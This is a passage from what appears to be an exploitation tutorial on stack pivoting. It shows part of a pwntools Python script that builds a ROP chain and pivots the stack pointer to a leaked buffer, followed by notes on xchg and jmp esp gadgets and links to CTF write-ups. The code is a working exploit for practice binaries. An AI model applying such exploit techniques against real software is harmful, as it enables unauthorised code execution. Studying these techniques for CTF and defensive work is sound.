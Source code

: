 ```python
    0xdeadbeef,
    POP_RSI_R15,
    0xdeadc0de,
    0x0,               # r15
    elf.sym['winner']
)

payload = payload.ljust(104, b'A')     # pad to 104

# Start popping RSP, this moves the stack to the leaked address and 
# continues the ROP chain in the prepared payload
payload += flat(
    POP_CHAIN,
    buffer             # rsp
)

pause()
p.sendline(payload)
print(p.recvline())
```

### xchg \<reg>, rsp gadget

```
pop <reg>                <=== return pointer
<reg value>
xchg <reg>, rsp
```

### jmp esp

Check the ret2esp technique here:

{% content-ref url="../rop-return-oriented-programing/ret2esp-ret2reg.md" %}
[ret2esp-ret2reg.md](../rop-return-oriented-programing/ret2esp-ret2reg.md)
{% endcontent-ref %}

## References & Other Examples

* [https://bananamafia.dev/post/binary-rop-stackpivot/](https://bananamafia.dev/post/binary-rop-stackpivot/)
* [https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting)
* [https://guyinatuxedo.github.io/17-stack\_pivot/dcquals19\_speedrun4/index.html](https://guyinatuxedo.github.io/17-stack\_pivot/dcquals19\_speedrun4/index.html)
  * 64 bits, off by one exploitation with a rop chain starting with a ret sled
* [https://guyinatuxedo.github.io/17-stack\_pivot/insomnihack18\_onewrite/index.html](https://guyinatuxedo.github.io/17-stack\_pivot/insomnihack18\_onewrite/index.html)
  * 64 bit, no relro, canary, nx and pie. The program grants a leak for stack or pie and a WWW of a qword. First get the stack leak and use the WWW to go back and get the pie leak. Then use the WWW to create an eternal loop abusing `.fini_array` entries + calling `__libc_csu_fini` ([more info here](../arbitrary-write-2-exec/www2exec-.dtors-and-.fini\_array.md)). Abusing this "eternal" write, it's written a ROP chain in the .bss and end up calling it pivoting with RBP.
